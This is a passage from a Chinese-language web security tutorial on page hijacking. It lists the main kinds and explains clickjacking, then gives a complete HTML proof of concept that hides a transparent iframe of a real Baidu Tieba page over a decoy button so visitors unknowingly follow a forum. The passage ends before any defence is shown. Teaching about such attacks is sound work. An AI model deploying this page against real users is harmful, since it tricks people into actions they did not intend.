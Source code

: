 常见的页面劫持有：

1. 点击劫持
2. http 劫持
3. DNS 劫持
4. CDN 劫持
5. 前端页面劫持

## 一、点击劫持

> `点击劫持（ClickJacking）`是一种视觉上的欺骗手段。大概有两种方式:

1. 是攻击者使用一个透明的 iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的 iframe 页面；
2. 是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义。

### 1. iframe 覆盖及解决办法

假如我们在百度有个贴吧，想偷偷让别人关注它。于是我们准备一个页面：

```html
<!DOCTYPE html>
<html>
  <meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
  <head>
    <title>点击劫持</title>
    <style>
      html,
      body,
      iframe {
        display: block;
        height: 100%;
        width: 100%;
        margin: 0;
        padding: 0;
        border: none;
      }
      iframe {
        opacity: 0;
        filter: alpha(opacity=0);
        position: absolute;
        z-index: 2;
      }
      button {
        position: absolute;
        top: 315px;
        left: 462px;
        z-index: 1;
        width: 72px;
        height: 26px;
      }
    </style>
  </head>
  <body>
    那些不能说的秘密
    <button>查看详情</button>
    <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
  </body>
</html>
```

